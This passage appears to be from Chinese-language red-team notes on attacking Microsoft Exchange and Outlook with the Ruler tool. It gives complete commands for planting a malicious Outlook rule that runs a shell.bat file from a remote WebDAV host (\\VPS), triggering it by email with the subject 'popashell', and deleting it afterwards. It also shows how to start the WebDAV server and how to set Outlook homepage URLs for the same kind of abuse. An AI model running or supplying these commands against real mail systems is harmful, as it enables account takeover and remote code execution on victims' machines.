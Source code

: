 KB4011091 于 2017年9月的更新中修复

### 2. Ruler

查看规则

```
ruler_windows_amd64.exe —insecure —url https://MAIL/autodiscover/autodiscover.xml —email daiker@Liton-Lab.com -u daiker -p 密码 —verbose —debug display
```

增加规则

```
ruler_windows_amd64.exe —insecure —url https://MAIL/autodiscover/autodiscover.xml —email daiker@Liton-Lab.com -u daiker -p 密码 —verbose —debug add —location “\\VPS\webdav\shell.bat” —trigger “popashell” —name maliciousrule
```

触发规则

```
ruler_windows_amd64.exe —insecure —url https://MAIL/autodiscover/autodiscover.xml —email daiker@Liton-Lab.com -u daiker -p 密码 —verbose —debug send —subject popashell —body “this is a test by daiker”
```

删除规则

```
ruler_windows_amd64.exe —insecure —url https://MAIL/autodiscover/autodiscover.xml —email daiker@Liton-Lab.com -u daiker -p 密码 —verbose —debug delete —id 020000006cfcd8d7
```

webdav可以这样开

```
pip install WsgiDAV cheroot
wsgidav —host 0.0.0.0 —port 80 —root=/tmp/11/
```

没有CVE编号,但是有些版本Outlook没测试成功,可以看下这篇文章[Outlook 2016 rules start application option gone](https://answers.microsoft.com/en-us/msoffice/forum/msoffice_outlook-mso_win10-mso_o365b/outlook-2016-rules-start-application-option-gone/1eb0066d-d50f-4948-824e-adee58ca5a6f)

### 3. HomePage

1.[Ruler](https://github.com/sensepost/ruler)

```
ruler_windows_amd64.exe —insecure —url https://MAIL/autodiscover/autodiscover.xml —email daiker@Liton-Lab.com -u daiker -p 密码 —verbose —debug homepage display

ruler_windows_amd64.exe —insecure —url https://MAIL/autodiscover/autodiscover.xml —email daiker@Liton-Lab.com -u daiker -p 密码 —verbose —debug homepage add —url http://x

ruler_windows_amd64.exe —insecure —url https://MAIL/autodiscover/autodiscover.xml —email daiker@Liton-Lab.com -u daiker -p 密码 —verbose —debug homepage delete
```
